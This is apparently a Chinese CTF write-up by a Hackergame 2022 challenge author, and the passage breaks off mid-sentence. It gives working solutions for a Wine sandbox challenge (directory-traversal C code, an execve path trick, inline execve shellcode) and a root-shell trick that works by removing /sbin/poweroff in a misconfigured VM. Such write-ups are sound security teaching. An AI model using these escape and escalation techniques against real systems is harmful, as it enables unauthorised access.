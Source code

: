 ```yaml
---
name: hackergame-2022
challenges:
-   name:   winepenguin
    tag:    wine | shellcode
    link:   [link](hackergame-2022/winepenguin)
    solved: true
-   name:   no\_open
    tag:    syscall
    link:   [link](hackergame-2022/no_open)
    solved: true
-   name:   kanata
    tag:    
    link:   [202.38.93.111 10338](hackergame-2022/kanata)
    solved: true
-   name:   homogame
    tag:    
    link:   [link](hackergame-2022/homogame)
    solved: true
-   name:   one\_byte\_man
    tag:    mmap
    link:   [link](hackergame-2022/one_byte_man)
    solved: true
-   name:   evilCallback
    tag:    v8
    link:   [link](hackergame-2022/evilCallback)
    solved: true
---
```


> 从 2020 年入学以来这是我经历的第三次 hackergame 了，不过今年是以出题人的身份参加的。
>
> ~~（考虑到自己 `math: 0` 的水平，就算认真去肝七天也很难取得比 20 年更好的成绩了）~~
>
> 刚开始学二进制的时候，原因只是「这个方向好像很缺人」，跟着战队打比赛一直也只是堆题签个到走人的水平。直到今年暑假连着参加了几场线下赛（虽然个人贡献 $\approx$ 0），但见识了很多高质量的赛题，也开始思考 pwn 在赛题以外的意义。
>
> 今年的 evilCallback 就是在这种背景下诞生的——一道比较接近 RealWorld 的二进制漏洞利用题。

## 杯窗鹅影

这道题有几种解法，标准解法应该是在 wine 中调用 linux 下的 syscall 实现 flag 的读取，但是有人发现可以用相对路径读到 `/flag1`：

```c
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>
int main() {
    int fd = open("../../../../../../../../../flag1", 0, 0);
    char buf[0x100];
    read(fd, buf, 0x100);
    puts(buf);

    return 0;
}
// flag{Surprise_you_can_directory_traversal_1n_WINE_a4b4853859}
```

于是加上了第二问，但正如[官方 wp](https://github.com/USTC-Hackergame/hackergame2022-writeups/blob/master/official/%E6%9D%AF%E7%AA%97%E9%B9%85%E5%BD%B1/README.md) 中说的，wine 中根目录下的文件 `/flag` 有等价路径 `\\?\unix\flag`，故第二问同样可以不用 shellcode 解决：

```c
#include <stdio.h>
#include <unistd.h>

int main() {
    execve("\\\\?\\unix\\readflag", 0, 0);
    return 0;
}
```

再看一下标准做法，用 `shellcraft.sh("/readflag")` 生成的汇编代码即可：

```c
// x86_64-w64-mingw32-gcc ./exp2.c -o exp2.exe -masm=intel
#include <stdio.h>
int main() {
    __asm__(
            "push 0x67;"
            "mov rax, 0x616c66646165722f;"
            "push rax;"
            "mov rdi, rsp;"
            "xor rsi, rsi;"
            "xor rdx, rdx;"
            "mov rax, 0x3b;"
            "syscall;"
            );
    return 0;
}
// flag{W1ne_is_NeveR_a_SaNDB0x_ad2970bd4f}
```

---

## 传达不到的文件

> 这道题由于权限相关设置有问题，比赛中出现了几种非预期解 ~~（比赛前一周我在学校里是比较闲的，本来也打算测试一下这几道题，帮验题人分担一点工作量，结果自己的题考虑不周一直修到了最后一天的半夜，还耽误了验题学长大量时间😭😭，间接导致了「权限问题」这样的非预期）~~

由于 `sbin` 内文件的 owner 是 1000，其中文件是可以随便更改的，因此赛后也是传出了五花八门的非预期，大体思路围绕 `/etc/init.d/rcS`：

```sh
#! /bin/sh

mkdir -p /tmp
mount -t proc none /proc
mount -t sysfs none /sys
mount -t debugfs none /sys/kernel/debug
mount -t devtmpfs devtmpfs /dev
mount -t tmpfs none /tmp
mdev -s

echo 1 > /proc/sys/kernel/kptr_restrict
echo 1 > /proc/sys/kernel/dmesg_restrict
chmod 400 /proc/kallsyms

chown 0:0 /chall
chmod 04111 /chall

cat /dev/sda > /flag2
chown 1337:1337 /flag2
chmod 0400 /flag2

setsid /bin/cttyhack setuidgid 1000 /bin/sh

umount /proc
umount /tmp


poweroff -d 0  -f
```

例如在 shell 中直接执行 `rm /sbin/poweroff; exit` 就获得了 root 权限的 shell，进而得到两个 flag。

#### task1-读不到

第一问的预期解法实则是利用 ptrace dump 整个

